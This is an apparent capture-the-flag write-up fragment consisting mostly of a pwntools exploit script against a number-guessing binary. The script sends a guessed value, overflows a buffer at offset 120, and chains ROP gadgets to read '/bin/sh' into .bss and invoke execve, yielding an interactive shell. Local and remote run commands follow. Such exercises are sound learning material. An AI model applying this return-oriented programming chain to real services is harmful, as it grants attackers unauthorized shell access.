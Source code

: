 ```python
# found magic numbers (you already discovered the first one)
magic_number = [84]   # if you want, extend with more by cracking sequence

# sync and send first winning guess
p.recvuntil(b'What number would you like to guess?\n')
p.sendline(str(magic_number[0]).encode())
p.recvuntil(b'Name? ')

# gadgets & addresses
pop_rax = 0x00000000004005af
pop_rdi = 0x00000000004006a6
pop_rsi = 0x0000000000410b93
pop_rdx = 0x0000000000410602
syscall = 0x000000000040138c
bss = 0x00000000006bc3a0

# use the offset you confirmed with cyclic_find
offset = 120   # <-- CHANGE to value you measured (112 vs 120)

# build payload
payload  = b'A' * offset
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rsi) + p64(bss)
payload += p64(pop_rdx) + p64(16)
payload += p64(elf.symbols['read'])
payload += p64(pop_rax) + p64(59)
payload += p64(pop_rdi) + p64(bss)
payload += p64(pop_rsi) + p64(0)
payload += p64(pop_rdx) + p64(0)
payload += p64(syscall)

# send payload, then the "/bin/sh" bytes read() will write into .bss
p.sendline(payload)
p.sendline(b"/bin/sh\x00")

# interactive shell
p.interactive()
```

Run:

```bash
# local
python3 exploit.py

# remote
python3 exploit.py REMOTE=1
```

---

![result](./img/result.png)


